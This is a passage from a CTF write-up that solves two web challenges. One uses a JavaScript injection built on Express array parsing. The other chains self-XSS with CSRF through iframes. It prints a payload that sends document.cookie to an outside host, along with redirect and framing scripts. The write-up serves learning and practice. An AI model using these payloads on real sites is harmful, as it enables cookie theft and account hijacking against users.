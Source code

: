 So `example.com<foo>"bar"` will become `const note = "example.com\x3Cfoo\x3E\"bar\"";`. The double quotes are encoded because of `JSON.stringify`.

However, the `escape_string` logic is weird, especially the `slice` one. The slice is intended to prune `"example.com"` to `example.com`.

Since we have `bodyParser` `extended: true`, we can send an array into the request object. If we make the content an array, the behavior of slice function will become

```
["example.com"] -> "example.com"
```

That is, we can preserve the double quotes, and it leads to javascript injection. The final payload:

```
content[]=;document.location='http://example.com/?'+btoa(document.cookie);//

// CTF{Express_t0_Tr0ubl3s}
```

### Tech Support

In this challenge, the admin has cookies in `typeselfsub.web.ctfcompetition.com/`. The domain has a self-XSS requireing the user to see his/her profiles. That is, unless admin is logout and log in to our account, the XSS will not be triggered.

Addtionally, the XSS bot admin will browse pages in `typeselfsub-support.web.ctfcompetition.com/`. The page has an easy XSS.

The question is: how to abuse self-XSS to steal the flag?

We can just keep the logged-in admin frame there, and then CSRF to login our account and execute XSS payload to steal the page content. This does not violate same-origin policy because the two frames still belong to the same domains.

So first, redirect the admin to a website that we controlled.

```htmlmixed
<img src=z onerror=document.location.href="https://bookgin.tw/"></img>
```

Next, we open three frames here:

1. Admin's frame containg the flag
2. logout admin's account
3. login to our account and execute XSS

index.html:

```htmlmixed
<body>
  <iframe width=500 height=800 id="i0"></iframe>
  <iframe width=500 height=800 id="i1"></iframe>
  <iframe src="login.html" width=500 height=800 id="i2"></iframe>
</body>
<script>
!async function() {
  console.log("start!");
  document.querySelector("#i0").src = "https://typeselfsub.web.ctfcompetition.com/flag";
  await new Promise(r => setTimeout(r, 2000));
  document.querySelector("#i1").src = "https://typeselfsub.web.ctfcompetition.com/logout";
  await new Promise(r => setTimeout(r, 2000));
  document.querySelector("#i2").contentDocument.querySelector("form").submit();
  console.log("done");
}();
</script>
```
